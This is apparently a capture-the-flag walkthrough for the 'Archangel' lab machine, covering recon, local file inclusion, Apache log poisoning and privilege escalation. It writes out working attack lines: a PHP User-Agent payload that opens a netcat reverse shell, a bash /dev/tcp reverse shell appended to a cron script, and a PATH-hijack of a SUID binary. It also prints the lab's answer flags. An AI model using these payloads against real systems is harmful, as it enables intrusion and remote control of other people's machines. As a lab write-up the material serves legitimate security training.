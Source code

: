 > Archangel

**export IP=10.10.150.53**

# Nmap

nmap -sC -sV -T4 -Pn -p- -vv -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/test.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

# Nikto

nikto -h http://$IP

```
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST 
+ OSVDB-3092: /pages/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
```

# Gobuster

gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster/initial -x php,sql,txt,js,bak,tar,bin,cgi

```
/images (Status: 301)
/pages (Status: 301)
/flags (Status: 301)
/layout (Status: 301)
/licence.txt (Status: 200)
```

We got nothing ,much interesting. Let's look at the flags folder.Couldn't get anything. Looking at the home page we got `support@mafialive.thm`. Let's put mafialive.thm in our /etc/hosts file. And when moving to mafialive.thm we got the 1st flag!

# Flag 1

```
thm{f0und_th3_r1ght_h0st_n4m3}
```

## robots.txt

```
Disallow: /test.php
```

And accessing test.php when we click the button we are redirected to `http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php`. Looks like we have LFI. By trying many ways we got one hit `http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//etc/passwd
` at my first try.

We can also try `curl 'http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php' | base64 -d` And looking at test.php we got the 2nd flag!

# Flag 2

```
thm{explo1t1ng_lf1}
```

# Log-Poisoning

curl 'http://10.10.150.53.thm/test.php?view=php://filter/resource=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log'

We can poison the log using User-Agent!

curl 'http://mXXXXXXXe.thm/tXXX.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log' -H "User-Agent: asd <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.2.82 1337 >/tmp/f'); ?> fgh"

And now we got a shell!!

# User.txt

```
thm{lf1_t0_rc3_1s_tr1cky}
```

find / -perm -u=s -type f 2>/dev/null

```
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/umount
/bin/su
/bin/mount
/bin/fusermount
/bin/ping
```

# Crontab

`*/1 *   * * *   archangel /opt/helloworld.sh`

And putiing an one-liner there we are in as archangel!

echo "bash -i >& /dev/tcp/10.8.107.21/1234 0>&1" >> /opt/helloworld.sh

# User2.txt

```
thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}
```

We can find a ELF file backup. And we can find `cp /home/user/archangel/myfiles/* /opt/backupfiles
` this while using strings. And when we use this command we get an error `cannot stat /home/user/archangel/myfiles/*: No such dir`. Here they have used absolut path for cp, which is it search for cp in each directory. So let's try to abuse this.

## Exploit

```
$ cd /dev/shm
$ mkdir random123
$ cd random123
$ echo 'bash -p' > cp
$ chmod +x ./cp
$ export PATH="/dev/shm/random123/:$PATH"
$ /home/archangel/secret/backup
```

And we are root!!

# root.txt

```
thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}	
```